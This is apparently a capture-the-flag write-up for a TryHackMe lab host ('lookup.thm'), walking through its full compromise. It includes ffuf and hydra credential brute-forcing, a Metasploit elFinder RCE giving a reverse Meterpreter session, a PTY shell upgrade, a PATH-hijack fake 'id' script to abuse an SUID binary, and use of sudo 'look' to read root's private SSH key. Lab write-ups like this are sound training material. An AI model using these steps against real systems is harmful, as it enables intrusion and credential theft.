

My approach is to always hit the IP in the browser after the basic setup already mentioned in the Instruction.txt file.

Doing so leads to a redirect to http://lookup.thm.

So we need to do a small tweak in the file */etc/hosts*

At the end of the IP entry, add a single space followed by `lookup.thm`, then save and exit.

Opening `http://ip` redirected to http://lookup.thm, where a login page appeared.

Running *Directory Enumeration* revealed:

```
200 -    1B  - /login.php
```

That's all I found. The page http://lookup.thm/login.php is the login page.



Viewing the source code:


The `username` and `password` parameters are clearly visible in the source code.
Using these parameters, we can craft a curl request to test credentials:

```
curl -v -X POST http://lookup.thm/login.php -d "username=orion&password=1234"
```
```
Wrong username or password. Please try again.
Redirecting in 3 seconds.
```
The request headers were:
```
> POST /login.php HTTP/1.1
> Host: lookup.thm
> User-Agent: curl/8.18.0
> Accept: */*
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded

```

It worked — giving us the same "wrong credentials" error seen in the browser.

This confirms we can submit login requests this way.

Before jumping to password brute-forcing, I tested for SQL injection, but it wasn't working.

Now for what we've been waiting for...

# Brute-Forcing the Login Page — Part 1

For this we are going to use ffuf.
We will run the command below to enumerate the login page.
But before doing so, we need to manually send one request first to get the response size and word count of an invalid response.

Based on the curl output, we run:
```
ffuf -u http://lookup.thm/login.php \
-w <(echo "random_user"):USER \
-w <(echo "random_pass"):PASS \
-X POST \
-d "username=USER&password=PASS" \
```

The output was:

``` 
[Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 64ms]
    * PASS: random_pass
    * USER: random_user
```


**Based on the curl output, we now know that an invalid response has a size of 74 and 10 words.**
```
ffuf -v  -u http://lookup.thm/login.php \
-w /home/Seclists/Usernames/top-usernames-shortlist.txt:USER \
-w /home/Seclists/Passwords/Common-Credentials/best15.txt:PASS \
-X POST \
-d "username=USER&password=PASS" \
-H "Content-Type: application/x-www-form-urlencoded" \
-fs 74 -fw 10 
```

The response for `admin` differs from the others. Trying `admin` in the browser gives:

``` 
Wrong password. Please try again.
Redirecting in 3 seconds. 
```
Notice the difference from the earlier curl error — this one indicates the username is valid.
We've found a valid username. Now we'll use a different wordlist for further enumeration.

```
ffuf -v  -u http://lookup.thm/login.php \
-w /home/Seclists/Usernames/Names/names.txt:USER \
-w /home/Seclists/Passwords/Common-Credentials/best15.txt:PASS \
-X POST \
-d "username=USER&password=PASS" \
-H "Content-Type: application/x-www-form-urlencoded" \
-fs 74 -fw 10
```
Running this, you'll find another user.
```
[Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 75ms]
| URL | http://lookup.thm/login.php
    * PASS: 111111
    * USER: admin

[Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 63ms]
| URL | http://lookup.thm/login.php
    * PASS: 111111
    * USER: jose
```

We now have another valid username: `jose`.

Now we'll run ffuf for the `jose` user, targeting passwords only.
```
ffuf -v  -u http://lookup.thm/login.php \
-w /home/Seclists/Passwords/Common-Credentials/best1050.txt:PASS \
-X POST \
-d "username=jose&password=PASS" \
-H "Content-Type: application/x-www-form-urlencoded" \
-fs 62 -fw 8
```
You'll get the password. Log in using these credentials.

You will be redirected to http://files.lookup.thm/, which is not in our `/etc/hosts` file, so add it there as well.

After adding it, enter the credentials again and you'll land at http://files.lookup.thm/elFinder/elfinder.html#elf_l1_Lw.
Here you can browse and open files. After some enumeration, I was able to find the version of elFinder (the web file manager being used here).

The version was vulnerable to RCE. I confirmed this after searching for that elFinder version number, then used msfconsole to exploit it.
To find the exploit, use the pre-installed Kali tool `searchsploit` with the command `searchsploit elfinder <version_number>`.
After identifying the exploit, start msfconsole and run `search elfinder <version_number>`. You'll get an exploit path — use the one with an **Excellent** rating whose path starts with `/unix/webapp/`.

Then run `use <exploit_path>`,
set the target host with `set RHOSTS files.lookup.thm`,
set the local host with `set LHOST tun0`,
then run `run`. However, an error appeared:


The fix is:
Set RHOSTS to the room IP: `set RHOSTS <room_ip>`
Then set the virtual host: `set VHOST files.lookup.thm`
Now run the exploit — you'll get a Meterpreter session.
A Meterpreter session is similar to a shell; drop into a proper shell from there.
Run the usual recon commands: `whoami`, `id`, etc.
This shell is not a full TTY. To upgrade it, run:
```
python3 -c "import pty; pty.spawn('/bin/bash')"
```
This will give us a fully interactive bash shell.

# Privilege Escalation — Part 2

We'll start by enumerating users on the system.

The `/etc/passwd` file is a text database of user accounts on a Linux/Unix system.

Running `cat /etc/passwd` gives:


Each entry follows this structure: **username:password_placeholder:UID:GID:comment:home_directory:shell**
In the output, we can see all system users. Two notable ones are *root* and *think*.
The user `think` has UID & GID 1000 with a home directory at `/home/think`. Let's explore it.


There's a `user.txt` file, but since we're logged in as `www-data` and it's owned by root/think, we can't read it yet.
However, listing hidden files with `ls -a` reveals a `.passwords` file under `/home/think/`.


Next, we'll search for SUID binaries that could grant root access.


There's an unusual binary at `/usr/sbin/pwm`.
When executed, this binary runs the `id` command and uses the username from its output. If we trick it into thinking we're the user `think`, we can read `/home/think/.passwords`.


If the binary calls `id` without a full path, we can create a fake `id` script and prepend its location to `$PATH`. Let's try that.
We'll create a file named `id` at `/tmp`.
To do this, exit the shell and go back to the Meterpreter session, since it doesn't support direct file creation in the shell. Create the `id` file in the directory where you opened msfconsole. The content of the `id` file should be:

```
#!/bin/bash
echo "uid=1001(think) gid=1001(think) groups=1001(think)"
```

Save it locally and upload it using the Meterpreter command **`upload id`**.


Since `chmod` is supported by Meterpreter, make the `id` file executable.
Make sure you're inside the `/tmp` directory, as we're about to prepend it to the `$PATH` variable.
If you followed the steps and switched from Meterpreter to shell, you're likely at `/var/www/files.lookup.thm/public_html/elFinder/php`. Switch to `/tmp`.

The command is **`PATH=/tmp:$PATH`**
To verify, run `echo $PATH`. If it starts with `/tmp:`, the command was successful.

Now run the *SUID binary*.
You should get a wordlist. Copy and save it for brute-forcing.
If you don't get the wordlist, repeat the steps.

Now brute-force the `think` user's SSH credentials with:
```
hydra -l think -P /path/to/wordlist -t 4 ssh://room_ip
```
After running, you'll get the SSH password. Log in with:


Enumerate the system and you'll find the user flag.

# Sudo Privilege Escalation — Part 3

Checking sudo privileges with `sudo -l`, we can see that the `think` user can run the `look` binary as root.


The `look` binary is similar to `grep` in that its primary purpose is to search for lines in a file that begin with a specified string. If it finds any lines starting with the given string, it prints them.

We can leverage this behavior to read arbitrary files by specifying an empty string as the search term. Since every line begins with an empty string, all lines in the file will match, causing the entire file to be printed. This technique is also documented on GTFOBins.

Using this method, we can read the private SSH key of the root user:


After getting the key, save it as `key` and set the correct permissions with **`chmod 600 key`**.

Log in as root with:
```
ssh -i key root@<ip>
```

Enumerate the system and you'll find the root flag.
